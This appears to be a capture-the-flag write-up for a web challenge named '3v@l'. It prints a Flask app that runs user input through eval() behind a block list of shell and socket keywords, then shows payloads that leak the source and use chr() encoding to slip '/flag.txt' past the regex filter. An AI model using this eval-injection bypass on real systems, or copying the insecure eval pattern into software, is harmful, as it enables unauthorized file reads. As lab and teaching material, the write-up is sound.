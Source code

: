 # 3v@l

## Homepage

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

## Request

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

### Solve

First I tried to read the file, a simple payload worked.&#x20;

```python
open(__file__).read()
```

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption><p>I changd body encoding btw*</p></figcaption></figure>

Now that I have the source code, I can peacefully test it locally without connection reset problem & also debugging is easier this way for me.

**Program:**&#x20;

```python
from flask import Flask, request, render_template_string, render_template
import re

app = Flask(__name__)

# Define blocklist keywords and regex for file paths
BLOCKLIST_KEYWORDS = ['os', 'eval', 'exec', 'bind', 'connect', 'python','python3', 'socket', 'ls', 'cat', 'shell', 'bind']
FILE_PATH_REGEX = r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'


@app.route('/')
def index():
    return render_template('index.html/')

@app.route('/execute', methods=['POST'])
def execute():
    code = request.form['code']

    # Check for blocklist keywords in submitted code
    for keyword in BLOCKLIST_KEYWORDS:
        if keyword in code:
            return render_template('error.html', keyword=keyword)

    # Check for file path using regex
    if re.search(FILE_PATH_REGEX, code):
        return render_template('error.html')

    try:
        # Execute the Python code if no blocklist keyword or file path found
        result = eval(code)
    except Exception as e:
        result = f"Error: {str(e)}"

    return render_template('result.html', result=result)

if __name__ == '__main__':
    app.run(debug=True, host="0.0.0.0", port=5000)
```

Looking at file, it's a simple challenge now.

Let's break down--

```python
BLOCKLIST_KEYWORDS = ['os', 'eval', 'exec', 'bind', 'connect', 'python','python3', 'socket', 'ls', 'cat', 'shell', 'bind']
```

A simple blocklist, nothing intresting keywords anyway.\
\
Next was the regex, which basically looks if we're using file extension, backslash, unicode, etc..\
Chatgpt ftw: \
**Unicode escapes** (like `\u0041`)\
**URL encoding** (like `%20`)\
**File extensions** (like `.exe`, `.txt`)\
**File path characters** (`/` and `\`)\
**Directory traversal patterns** (`..`)

### Flag

Since the open function was enabled/something we can use, I thought to use something that's similar to `/flag.txt`but spells otherwise.

An easy approach is to use `chr()`to make ascii do our work.

```python
while 1:
    inp = input('Enter line: ')
    res = ''
    for i in inp:
        res += f'chr({ord(i)}) + '
    #print(res[:-3])
    print(f'\n\nopen({res[:-3]}).read()')

'''
Enter line: /flag.txt
chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)

open(chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)).read()
'''
```

And done.............

ascii -> string -> flag.txt :)

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption><p>I changd body encoding btw*</p></figcaption></figure>

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning.
